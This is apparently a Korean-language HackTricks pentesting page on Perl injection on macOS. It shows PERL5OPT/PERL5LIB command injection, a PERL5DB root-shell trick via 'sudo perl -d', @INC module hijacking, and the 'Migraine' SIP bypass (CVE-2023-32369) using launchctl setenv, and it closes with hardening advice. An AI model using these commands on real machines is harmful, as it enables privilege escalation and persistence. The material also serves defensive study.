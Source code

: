 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## Via `PERL5OPT` & `PERL5LIB` env variable

환경 변수 **`PERL5OPT`**를 사용하면 **Perl**이 인터프리터가 시작될 때 임의의 명령을 실행하도록 할 수 있습니다(대상 스크립트의 첫 번째 줄이 구문 분석되기 **전**에). 예를 들어, 이 스크립트를 생성합니다:
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
이제 **환경 변수를 내보내고** **perl** 스크립트를 실행합니다:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
또 다른 옵션은 Perl 모듈을 생성하는 것입니다 (예: `/tmp/pmod.pm`):
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
그런 다음 env 변수를 사용하여 모듈이 자동으로 위치하고 로드되도록 합니다:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### 다른 흥미로운 환경 변수

* **`PERL5DB`** – 인터프리터가 **`-d`** (디버거) 플래그로 시작될 때, `PERL5DB`의 내용은 디버거 컨텍스트 *내부*에서 Perl 코드로 실행됩니다. 특권 Perl 프로세스의 환경 **및** 명령줄 플래그를 모두 영향을 미칠 수 있다면 다음과 같은 작업을 수행할 수 있습니다:

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # 스크립트를 실행하기 전에 셸을 드롭합니다
```

* **`PERL5SHELL`** – Windows에서 이 변수는 Perl이 셸을 생성해야 할 때 사용할 셸 실행 파일을 제어합니다. macOS와는 관련이 없기 때문에 완전성을 위해 여기 언급됩니다.

`PERL5DB`는 `-d` 스위치를 요구하지만, 이 플래그가 활성화된 상태로 *root*로 실행되는 유지 관리 또는 설치 스크립트를 찾는 것은 일반적이며, 이 변수는 유효한 상승 벡터가 됩니다.

## 의존성을 통한 (@INC 남용)

Perl이 검색할 포함 경로 (**`@INC`**)를 나열하는 것은 다음을 실행하여 가능합니다:
```bash
perl -e 'print join("\n", @INC)'
```
macOS 13/14의 일반적인 출력은 다음과 같습니다:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
일부 반환된 폴더는 존재하지 않지만, **`/Library/Perl/5.30`**는 존재하며 SIP에 의해 보호되지 않고 SIP 보호 폴더보다 앞에 있습니다. 따라서, *root*로 쓸 수 있다면 악성 모듈(예: `File/Basename.pm`)을 드롭할 수 있으며, 이는 해당 모듈을 가져오는 모든 권한 있는 스크립트에 의해 *우선적으로* 로드됩니다.

> [!WARNING]
> `/Library/Perl` 내부에 쓰려면 여전히 **root** 권한이 필요하며, macOS는 쓰기 작업을 수행하는 프로세스에 대해 *전체 디스크 접근*을 요청하는 **TCC** 프롬프트를 표시합니다.

예를 들어, 스크립트가 **`use File::Basename;`**를 가져오고 있다면, 공격자가 제어하는 코드를 포함하는 `/Library/Perl/5.30/File/Basename.pm`을 생성하는 것이 가능합니다.

## Migration Assistant를 통한 SIP 우회 (CVE-2023-32369 “Migraine”)

2023년 5월, Microsoft는 **CVE-2023-32369**를 공개했으며, 이는 **Migraine**이라는 별명을 가진 포스트 익스플로잇 기술로, *root* 공격자가 **시스템 무결성 보호(SIP)**를 완전히 **우회**할 수 있게 해줍니다. 취약한 구성 요소는 **`systemmigrationd`**로, **`com.apple.rootless.install.heritable`** 권한을 가진 데몬입니다. 이 데몬에 의해 생성된 모든 자식 프로세스는 해당 권한을 상속받아 SIP 제한 외부에서 실행됩니다.

연구자들이 확인한 자식 중에는 Apple 서명 인터프리터가 있습니다:
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
Perl은 `PERL5OPT`를 존중하고 (Bash는 `BASH_ENV`를 존중하므로), 데몬의 *환경*을 오염시키는 것만으로도 SIP가 없는 컨텍스트에서 임의 실행을 얻기에 충분합니다:
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
`migrateLocalKDC`가 실행되면, `/usr/bin/perl`이 악성 `PERL5OPT`와 함께 시작되고 `/private/tmp/migraine.sh`를 실행합니다 *SIP가 다시 활성화되기 전에*. 그 스크립트에서 예를 들어, **`/System/Library/LaunchDaemons`** 내부에 페이로드를 복사하거나 `com.apple.rootless` 확장 속성을 할당하여 파일을 **삭제할 수 없게** 만들 수 있습니다.

Apple은 macOS **Ventura 13.4**, **Monterey 12.6.6** 및 **Big Sur 11.7.7**에서 이 문제를 수정했지만, 이전 버전이나 패치되지 않은 시스템은 여전히 취약합니다.

## Hardening recommendations

1. **위험한 변수 지우기** – 권한이 있는 launchdaemons 또는 cron 작업은 깨끗한 환경에서 시작해야 합니다 (`launchctl unsetenv PERL5OPT`, `env -i` 등).
2. **엄격히 필요하지 않는 한 루트로 인터프리터 실행 피하기**. 컴파일된 바이너리를 사용하거나 권한을 조기에 낮추십시오.
3. **`-T` (taint mode)로 공급업체 스크립트 사용하기**. 이렇게 하면 Perl이 taint 체크가 활성화될 때 `PERL5OPT` 및 기타 안전하지 않은 스위치를 무시합니다.
4. **macOS를 최신 상태로 유지하기** – “Migraine”은 현재 릴리스에서 완전히 패치되었습니다.

## References

- Microsoft Security Blog – “New macOS vulnerability, Migraine, could bypass System Integrity Protection” (CVE-2023-32369), May 30 2023.
- Hackyboiz – “macOS SIP Bypass (PERL5OPT & BASH_ENV) research”, May 2025.

{{#include ../../../banners/hacktricks-training.md}}

